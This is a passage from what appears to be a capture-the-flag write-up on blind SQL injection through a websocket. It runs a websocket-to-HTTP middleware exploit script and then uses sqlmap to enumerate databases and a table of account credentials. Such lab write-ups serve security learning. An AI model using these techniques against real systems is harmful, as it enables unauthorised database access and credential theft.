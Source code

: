 ![image](/images/Pasted image 20230115133103.png)

![image](/images/Pasted image 20230115133344.png)

only the ticket id was used for the request. this might look like a sqli but we had to research how this is done with websockets.

and we found this blog post with a very handy exploit script.

[websocket sqli] (https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

we adjusted `url` and `payload` parameter and executed the script.

```shell
$ python3 websock_exp.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```

then we needed to start `sqlmap` to check for vulnerabilities

```shell
$ sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

and `sqlmap` found a time based vulnerability.

```shell
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

we found those databases

```shell
accounts
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

and this table in the `soccer_db`

```shell
Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int         |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
```
